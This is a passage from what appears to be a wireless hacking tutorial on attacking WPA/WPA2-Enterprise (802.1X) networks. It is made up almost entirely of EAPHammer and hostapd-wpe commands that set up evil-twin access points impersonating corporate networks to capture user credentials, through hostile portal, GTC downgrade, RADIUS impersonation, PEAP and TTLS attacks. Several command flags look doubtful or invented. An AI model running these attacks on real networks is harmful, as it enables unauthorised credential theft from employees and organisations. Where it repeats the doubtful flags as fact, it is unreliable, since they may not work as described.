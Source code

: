 ## WPA Enterprise Attacks

Enterprise networks using WPA-Enterprise (802.1X) require specialized attack techniques.

### EAPHammer: 802.1X Exploitation

EAPHammer specializes in attacking WPA/WPA2-Enterprise networks, particularly those using EAP authentication.

```bash
# Clone and setup
git clone https://github.com/s0lst1c3/eaphammer.git
cd eaphammer
./kali-setup

# Generate certificates
./eaphammer --cert-wizard

# Create evil twin with hostile portal
sudo ./eaphammer --bypass-hostapd-install -i wlan0 --ssid "Corp-Secure" --auth wpa-eap --creds
```

**Common EAP Attack Methods:**

1. **Hostile Portal Attack:**
```bash
sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Secure_Network" --creds
```

2. **GTC Downgrade Attack:**
```bash
sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Secure_Network" --gc-downgrade
```

3. **RADIUS Impersonation:**
```bash
sudo ./eaphammer -i wlan0 --channel 6 --auth radius --essid "Secure_Network" --creds --radius-server 10.0.0.1
```

### EAP Protocol-Specific Attacks

Different EAP protocols have specific vulnerabilities:

**EAP-PEAP Attack:**
```bash
# Attack using EAPHammer
sudo ./eaphammer -i wlan0 --channel 6 --auth peap --essid "Secure_Network" --creds

# With hostapd-wpe
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf -s /etc/hostapd-wpe/certs/server.pem
```

**EAP-TTLS Attack:**
```bash
# Attack using EAPHammer
sudo ./eaphammer -i wlan0 --channel 6 --auth ttls --essid "Secure_Network" --creds

# Manual configuration with custom CA
sudo ./eaphammer -i wlan0 --channel 6 --auth ttls --essid "Secure_Network" --creds --ca-cert /path/to/ca.pem
```
